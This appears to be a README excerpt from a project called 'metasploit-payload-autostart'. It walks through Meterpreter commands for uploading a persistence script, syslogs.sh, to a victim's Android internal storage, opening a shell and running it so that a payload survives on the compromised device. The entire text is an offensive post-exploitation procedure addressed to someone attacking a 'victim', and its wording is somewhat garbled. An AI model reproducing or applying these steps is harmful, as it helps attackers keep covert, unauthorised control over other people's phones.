 # metasploit-payload-autostart

UPLOADING PERSISTENT SCRIPT AND EXECUTING) 

Now when you get meterpreter session of your victim device to follow the below steps to upload persistent script and to make payload persistent on the victim device.

Ex :-

meterpreter> upload $HOME/MSF-payload-autostart/syslogs.sh  /sdcard

(Nowhere the persistent script will be uploaded to your victim's device internal storage)

meterpreter> cd /sdcard

meterpreter> ls

meterpreter> shell

meterpreter> ls

(Nowhere your victim's internal storage will be shown so here check if Syslogs.sh file is present or not if not then repeat the step1. if it is present then you can follow below step)

meterpreter> sh syslogs.sh

(Nowhere the process of persistent activity takes 10 Minutes after ten minutes you can exit from the process)
